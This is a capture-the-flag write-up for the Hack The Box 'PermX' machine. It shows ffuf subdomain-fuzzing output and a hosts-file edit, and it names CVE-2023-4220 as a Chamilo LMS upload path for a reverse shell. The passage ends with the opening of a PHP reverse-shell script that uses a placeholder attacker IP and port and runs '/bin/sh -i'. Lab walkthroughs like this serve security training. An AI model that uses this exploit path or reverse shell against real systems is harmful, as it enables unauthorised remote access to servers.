 ```
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb/
 :: Wordlist         : FUZZ: /home/death/wordlists/seclists/current/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.premx.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response size: 200
________________________________________________

lms
www
:: Progress: [19966/19966] :: Job [1/1] :: 244 req/sec :: Duration: [0:01:15] :: Errors: 0 ::
```
### Let add this to Hosts file
```
echo "10.10.11.23 lms.permx.htb" | sudo tee -a /etc/hosts
```
### Let Nevigate to it

![Screenshot from 2024-08-26 23-49-52](https://github.com/user-attachments/assets/e9f12523-e683-4c11-b5d4-7ae83b4930d6)

## After little bit of search I just found there is a ```CVE-2023-4220``` exist.
* ## [CVE-2023-4220](https://starlabs.sg/advisories/23/23-4220/) We can upload a reverse shell here ```/main/inc/lib/javascript/bigupload/files```
## When i visited here http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/
## There already reverse shells exist, It reduce my work,

![Screenshot from 2024-08-27 00-05-58](https://github.com/user-attachments/assets/643ae1a3-b3c1-4070-9f46-912865d12932)


## Let upload own reverse shell, change Ip 
```
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = 'X.X.X.X';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
```